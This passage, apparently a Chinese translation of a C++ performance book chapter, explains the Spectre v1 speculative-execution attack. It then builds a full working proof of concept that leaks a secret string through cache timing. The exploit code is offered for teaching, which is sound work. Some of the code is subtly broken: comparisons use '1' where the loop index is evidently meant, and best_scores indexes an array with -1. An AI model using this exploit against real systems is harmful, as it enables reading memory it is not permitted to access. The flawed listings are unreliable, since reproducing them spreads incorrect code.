
前两章中,我们了解了在现代计算机上从初始数据到最终结果的复杂性。有时,机器会按照代码进行操作。从内存中读取数据,按写好的方式进行计算,然后将结果保存到内存中。然而,数据会经历一些我们可能不知道的中间状态。从内存中读取的过程时,CPU可能会执行别的指令,可能CPU认为读取过程需要这些别的指令等。我们试图通过直接的性能测试,来确认所有这些过程确实存在。这样的话,测量总是间接的,对代码的硬件优化和转换是为了交付正确结果而设计,毕竟只是进行了更快的计算。

本节中,将展示更多本应隐藏的硬件操作的可观察证据。这是一个重大发现:在2018年发现时引发了的网络安全恐慌,在硬件和软件供应商提供了大量补丁后才得以平息。这里,要说的就是Spectre和Meltdown安全漏洞(\url{https://meltdownattack.com/})。

\subsubsubsection{4.6.1\hspace{0.2cm}什么是Spectre?}

本节中,将详细演示Spectre攻击的早期版本,即Spectre版本1。虽然这不是一本关于网络安全的书,不过Spectre攻击通过仔细测试程序的性能来进行,依赖于本书中研究过的两种性能增强硬件技术:投机执行和内存缓存。在针对软件性能的攻击中,也可以学到一些东西。

Spectre背后的理念是,如果CPU遇到条件跳转指令,会尝试预测结果,并在假设预测正确的情况下执行指令。这就是所谓的投机执行,没有它,就不会有代码中的流水。投机执行中比较棘手的部分是错误处理,错误经常发生在推测执行的代码中,但在预测正确之前,这些错误必须不可见。最明显的例子是空指针解除引用,若处理器预测指针不为空,并执行相应的分支,那么每次分支错误预测时都会发生致命错误,而指针实际上为空。正确编写代码以避免取消空指针的引用,其也必须正确执行,但潜在的错误不能暴露出来。另一个常见的推测错误是数组边界读写:

\begin{lstlisting}[style=styleCXX]
int a[N];
…
if (i < N) a[i] = …
\end{lstlisting}

索引\texttt{i}通常小于数组的大小\texttt{N},那么这将成为预测条件,从\texttt{a[i]}读取的数据将预测地执行。如果预测错了怎么办?丢弃结果,所以没有造成影响,对吧?没那么简单。内存位置\texttt{a[i]}不在原始数组中,甚至不必是数组后面的元素。索引可以是任何值,因此索引的内存位置可以属于不同的程序,甚至属于操作系统,这样就没有读取该内存的权限。操作系统确实会执行访问控制,所以通常从另一个程序读取内存会触发错误。这一次,我们不确定错误是否真的存在,执行仍然处于预测阶段,分支预测可能出错。在知道这个预测是否正确之前,错误仍然是预测性错误。

然而,潜在的非法读操作有一个奇妙的副作用,\texttt{a[i]}已经加载到缓存中。下次从相同的位置读取时,读取速度会更快。无论是实际读取,还是投机的。投机执行期间的内存操作与真实执行时的操作一样。从主存读取需要更长的时间,而从缓存读取更快。可以观察和测试内存负载的速度。虽然是可衡量的副作用,但不是预期结果。实际上,该程序通过不同于预期输出的方式的额外机制进行输出,这就是所谓的边信道。

Spectre攻击利用了这个边信道:

%\hspace*{\fill} \\ %插入空行
\begin{center}

\includegraphics[width=0.9\textwidth]{content/1/chapter4/images/17.jpg}\\
图4.17 - Spectre攻击
\end{center}

使用在投机执行过程中获得的\texttt{a[i]}来索引另一个数组\texttt{t}。之后,数组中的一个元素\texttt{t[a[i]}将加载到缓存中。数组\texttt{t}的其余部分从未访问,仍然在内存中。与\texttt{a[i]}不同,\texttt{a[i]}实际上不是数组\texttt{a}的元素,而是使用非法手段获得的内存位置上的某个值,数组\texttt{t}完全在控制范围内。当读取\texttt{a[i]}和\texttt{t[a[i]}时,分支保持长时间的不可预测是攻击成功的关键。否则,当CPU检测到分支错误预测,并且实际上不需要这些内存访问时,投机执行就会结束。执行投机执行之后,最终会检测到错误预测,并且投机操作的所有后果都将回滚,包括潜在的内存访问错误。所有的结果只有一个,即数组\texttt{t[a[i]]}的值仍然在缓存中。这并没有什么问题,访问这个值是合法的,而且硬件总是在缓存中移动数据。这种方式永远不会改变结果,也不会访问任何不应该访问的内存。

然而,这整个系列的事件有一个可观察的结果:数组\texttt{t}中的一个元素的访问速度要比其他元素快得多:

%\hspace*{\fill} \\ %插入空行
\begin{center}

\includegraphics[width=0.9\textwidth]{content/1/chapter4/images/18.jpg}\\
图4.18 - Spectre攻击后内存和缓存的状态
\end{center}

可以测试读取数组\texttt{t}的每个元素所花费的时间,可以找到被\texttt{a[i]}索引的元素。其实,这就是我们不应该知道的秘密!

\subsubsubsection{4.6.2\hspace{0.2cm}Spectre的例子}

Spectre攻击需要几步,我们将逐一介绍。总的来说,对于本书来说,这会是一个相当大的编码示例(这个特殊的实现是钱德勒·卡鲁斯在2018年CPPCon上示例的变体)。

我们需要一个精确的计时器,可以使用C++高精度计时器:

\begin{lstlisting}[style=styleCXX]
using std::chrono::duration_cast;
using std::chrono::nanoseconds;
using std::chrono::high_resolution_clock;
long get_time() {
	return duration_cast< nanoseconds>(
	high_resolution_clock::now().time_since_epoch()
	).count();
}
\end{lstlisting}

开销和计时器的分辨率取决于实现。标准不要求任何特定的性能保证。对于x86 CPU,可以使用\textbf{时间戳计数器(TSC)},这是一种硬件计数器,用于计算从过去某个时间开始的周期数。使用循环计数作为计时器通常会导致测试中夹杂噪声,但计时器本身更快,这在这里很重要,因为我们将尝试测量从内存加载单个值需要多长时间。GCC、Clang和许多其他编译器都有内置函数来访问这个计数器:

\begin{lstlisting}[style=styleCXX]
long get_time() {
	unsigned int i;
	return __rdtscp(&i); // GCC/Clang intrinsic function
}
\end{lstlisting}

现在有了计时器,下一步是计时数组。实际中,不像在图中暗示的整数数组那么简单。整数在内存中太接近,将一个加载到缓存中会影响它访问邻近数据的时间。所以,需要将值分隔开:

\begin{lstlisting}[style=styleCXX]
constexpr const size_t num_val = 256;
struct timing_element { char s[1024]; };
static timing_element timing_array[num_val];
::memset(timing_array, 1, sizeof(timing_array));
\end{lstlisting}

这里我们只使用\texttt{timing\_element}的第一个字节,使用1024字节也没有什么特殊说法,只要足够大就行了,但这是必须通过测试确定的。如果距离太小,攻击就会变得不可靠。时间数组中有256个元素,因为我们要读取一个字节的秘密内存,所以数组\texttt{a[i]}是一个字符数组(即使实际的数据类型不是\texttt{char},仍然可以逐个字节地读取)。严格地说,因为测试不取决于这个数组的内容,所以没必要初始化时间数组。

现在可以来看一下核心代码了。下面是一个简化的实现,缺少了一些必要的内容,但这里更关注如何解释代码。

需要读取数组边界外的数值:

\begin{lstlisting}[style=styleCXX]
size_t size = …;
const char* data = …;
size_t evil_index = …;
\end{lstlisting}

这里\texttt{size}是数据的实际大小,\texttt{evil\_index}大于\texttt{size},是正确数据数组(之外)秘密值的索引。

接下来,我们将训练分支预测器,需要它了解更有可能访问数组的分支。为此,将生成一个指向数组的有效索引(稍后我们将了解如何实现),也就是\texttt{ok\_index}:

\begin{lstlisting}[style=styleCXX]
const size_t ok_index = …; // Less than size
constexpr const size_t n_read = 100;
for (size_t i_read = 0; i_read < n_read; ++i_read) {
	const size_t i = (i_read & 0xf) ? ok_index : evil_index;
	if (i < size) {
		access_memory(timing_array + data[i]);
	}
}
\end{lstlisting}

然后,在位置\texttt{timing\_array + data[i]}读取内存,其中\texttt{i}要么是\texttt{ok\_index},要么是\texttt{evil\_index},前者出现的频率明显要比后者高(在16次尝试读取中只读取一次秘密数据,以保证分支预测器已经训练的可以成功读取正确的数据)。注意,实际的内存访问有边界检查保护。我们从来没有真正读过不应该读的内存,所以此代码100\%正确。

理论上来说,访问内存的函数就是读取内存。实际中,因为编译器会试图消除冗余或不必要的内存操作,所以必须与优化编译器斗智斗勇。这里有一种方法,使用了内联汇编(因为位置\texttt{*p}标记为输入,所以读指令实际上由编译器生成):

\begin{lstlisting}[style=styleCXX]
void access_memory(const void* p) {
	__asm__ __volatile__ ( "" : :
	"r"(*static_cast<const uint8_t*>(p)) : "memory" );
}
\end{lstlisting}

我们运行了多次\textit{预测-错误预测}循环(示例中是100次)。现在期望\texttt{timing\_array}的一个元素在缓存中,所以需要测试访问每个元素需要多长时间。这里需要注意的是,按顺序访问整个数组将不起作用。预取将快速启动,并将要访问的元素移动到缓存中。大多数情况下这是有效的,但现在不需要。现在需要以随机顺序访问数组中的元素,并将访问每个元素所需的时间存储在内存访问延迟数组中:

\begin{lstlisting}[style=styleCXX]
std::array<long, num_val> latencies = {};
for (size_t i = 0; i < num_val; ++i) {
	const size_t i_rand = (i*167 + 13) & 0xff; // Randomized
	const timing_element* const p = timing_array + i_rand;
	const long t0 = get_time();
	access_memory(p);
	latencies[i_rand] = get_time() - t0;
}
\end{lstlisting}

也许会奇怪,为什么不简单地进行快速访问呢?两个原因:首先,不确定“快”对特定的硬件来说意味着什么,只知道要比“正常速度”快,所以也要测试“正常速度”。其次,任何测试都不是100\%可靠。有时计算会因另一个进程或操作系统中断,所以整个操作序列的准确时间取决于CPU当时在做什么等因素。这个进程很有可能会显示秘密内存位置的值,但不能100\%的保证,所以必须多尝试几次,并取平均的结果。

这样做时,会看到的代码中有几个风险。首先,假设时间数组的值不在缓存中。即使开始时它是正确的,在成功地瞄到了第一个秘密字节之后,就不正确了。每次攻击下一个字节之前,都必须从清除缓存中计时数组:

\begin{lstlisting}[style=styleCXX]
for (size_t i = 0; i < num_val; ++i) {
	_mm_clflush(timing_array + i); // Un-cache the array
}
\end{lstlisting}

同样,我们使用了GCC/Clang内置函数,大多数编译器中都有类似的东西,但函数名可能不同。

其次,这种攻击只能在投机执行持续足够长的时间才奏效,在两次内存访问(数据和时间数组)发生之前,CPU才会找出应该使用的分支。实际中,代码在预测上下文中没有持续足够的时间,因此必须使正确计算分支更加困难。做这件事的方法不止一种,这里使分支条件依赖于从内存中的某些值,并将数组复制到另一个访问速度较慢的变量中:

\begin{lstlisting}[style=styleCXX]
std::unique_ptr<size_t> data_size(new size_t(size));
\end{lstlisting}

必须确保这个值从缓存中清除,然后使用\texttt{*data\_size}中的数组长度进行读取:

\begin{lstlisting}[style=styleCXX]
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++z) {} // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
	access_memory(timing_array + data[i]);
}
\end{lstlisting}

代码中还有个神奇的延迟,一些无用的计算将缓存刷新和数据大小的访问分开(破坏了可能的指令重新排序,让CPU更快地获取数组大小)。\texttt{i < *data\_size}需要一些时间来计算,CPU需要在得到结果之前从内存中读取值。分支根据大概率的结果进行预测,这是一个有效的索引,因此可以预测性地对数据进行访问。

\subsubsubsection{4.6.3\hspace{0.2cm}Spectre出击!}

最后一步是把它们放在一起,并多次运行,以积累统计可靠的测试值(因为计时器本身所花费的时间与测试的时间差不多,导致单个指令的计时测试非常嘈杂)。

下面的函数攻击数据数组外的单个字节:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
char spectre_attack(const char* data,
                    size_t size, size_t evil_index) {
	constexpr const size_t num_val = 256;
	struct timing_element { char s[1024]; };
	static timing_element timing_array[num_val];
	::memset(timing_array, 1, sizeof(timing_array));
	std::array<long, num_val> latencies = {};
	std::array<int, num_val> scores = {};
	size_t i1 = 0, i2 = 0; // Two highest scores
	std::unique_ptr<size_t> data_size(new size_t(size));
	constexpr const size_t n_iter = 1000;
	for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
		for (size_t i = 0; i < num_val; ++i) {
			_mm_clflush(timing_array + i); // Un-cache the array
		}
		const size_t ok_index = i_iter % size;
		constexpr const size_t n_read = 100;
		for (size_t i_read = 0; i_read < n_read; ++i_read) {
			_mm_clflush(&*data_size);
			for (volatile int z = 0; z < 1000; ++z) {} // Delay
			const size_t i = (i_read & 0xf) ? ok_index :
			evil_index;
			if (i < *data_size) {
				access_memory(timing_array + data[i]);
			}
		}
		for (size_t i = 0; i < num_val; ++i) {
			const size_t i_rand = (i*167 + 13) & 0xff;
			// Randomized
			const timing_element* const p = timing_array +
			i_rand;
			const long t0 = get_time();
			access_memory(p);
			latencies[i_rand] = get_time() - t0;
		}
		score_latencies(latencies, scores, ok_index);
		std::tie(i1, i2) = best_scores(scores);
		constexpr const int threshold1 = 2, threshold2 = 100;
		if (scores[i1] >
		scores[i2]*threshold1 + threshold2) return i1;
	}
	return i1;
}
\end{lstlisting}

对于计时数组中的每个元素,我们将计算一个分数,即该元素访问速度最快的次数。还跟踪速度第二快的元素,它应该是常规的、访问较慢的数组元素之一。在多次迭代中,会得到我们预期的结果。但在实际中,在某些时候必须放弃。

当最佳和次最佳的分数之间差距够大,就知道已经检测到了计时数组中的快速元素,即由秘密字节的值索引的元素(尽管可以尝试使用迄今为止最好的猜测,如果到了最大迭代次数,而没有得到期望的结果,攻击就失败了)。

有两个工具函数可用来计算延迟的平均分数,并找出两个最佳分数。只要能给出正确的结果,就可以以任何方式实现它们。第一个函数计算平均延迟,并增加延时低于平均值的计时元素的分数(必须通过实验调整,但不是很敏感)。注意,希望一个数组元素的访问速度更快,所以可以在计算平均延迟时跳过(理想情况下,一个元素的延迟要比其他元素低得多,而其他元素的延迟都相同):

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template <typename T>
double average(const T& a, size_t skip_index) {
	double res = 0;
	for (size_t i = 0; i < a.size(); ++i) {
		if (1 != skip_index) res += a[i];
	}
	return res/a.size();
}

template <typename L, typename S>
void score_latencies(const L& latencies, S& scores,
size_t ok_index) {
	const double average_latency =
	average(latencies, ok_index);
	constexpr const double latency_threshold = 0.5;
	for (size_t i = 0; i < latencies.size(); ++i) {
		if (ok_index != 1 && latencies[i] <
		average_latency*latency_threshold) ++scores[i];
	}
}
\end{lstlisting}

第二个函数只是在数组中找到两个最好的分数:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
template<typename S>
std::pair<size_t, size_t> best_scores(const S& scores) {
	size_t i1 = -1, i2 = -1;
	for (size_t i = 0; i < scores.size(); ++i) {
		if (scores[i] > scores[i1]) {
			i2 = i1;
			i1 = i;
		} else
		if (i != i1 && scores[i] > scores[i2]) {
			i2 = i;
		}
	}
	return { i1, i2 };
}
\end{lstlisting}

我们有一个函数,指定了数组之外返回单个字节的值,但不直接读取这个字节。我们会用它来获取一些秘密数据!为了演示,将分配一个非常大的数组,通过指定一个较小的值作为数组的大小,将大多数数组指定为禁止访问的区域。实际上,这是唯一可以证明这种攻击的方法。自从发现Spectre漏洞以来,大多数计算机都打过补丁。因此,除非您的机器是上古机器,多年都没有更新,否则攻击将无法对任何不允许访问的内存进行攻击。补丁不会阻止对任何允许访问的数据使用Spectre,但必须检查代码,并证明它确实返回了值,而不是直接访问内存。我们的\texttt{spectre\_attack}函数在指定大小的数据数组之外没有读取任何内存,因此可以创建一个比指定大两倍的数组,并在上面半部分隐藏一条秘密消息:

\hspace*{\fill} \\ %插入空行
\noindent
\textbf{spectre.C}
\begin{lstlisting}[style=styleCXX]
int main() {
	constexpr const size_t size = 4096;
	char* const data = new char[2*size];
	strcpy(data, "Innocuous data");
	strcpy(data + size, "Top-secret information");
	for (size_t i = 0; i < size; ++i) {
		const char c =
		spectre_attack(data, strlen(data) + 1, size +
		i);
		std::cout << c << std::flush;
		if (!c) break;
	}
	std::cout << std::endl;
	delete [] data;
}
\end{lstlisting}

再次检查一下给\texttt{spectre\_attack}函数的值,数组大小就是数组中字符串的长度。除了在投机执行上下文中,代码不会访问其他内存。为了保护所有内存访问,需要对正确性进行检查。然而,程序会逐个字节地显示第二个字符串的内容,而这个字符串从来没有读取过。

总之,使用投机执行上下文来查看不允许访问的内存。由于访问该内存的分支条件是正确的,无效的访问是一个潜在的错误,并且永远不会发生。错误预测分支的结果会撤销,但有一个例外,访问的值仍然在缓存中,因此下一次访问相同值的速度会更快。对内存访问时间进行测试,就能知道那个值是多少!为什么我们对性能感兴趣,而不是黑客行为呢?要确认处理器和内存的行为确实如我们所描述,投机执行确实发生了,而且缓存确实工作,使得数据访问的速度更快。



















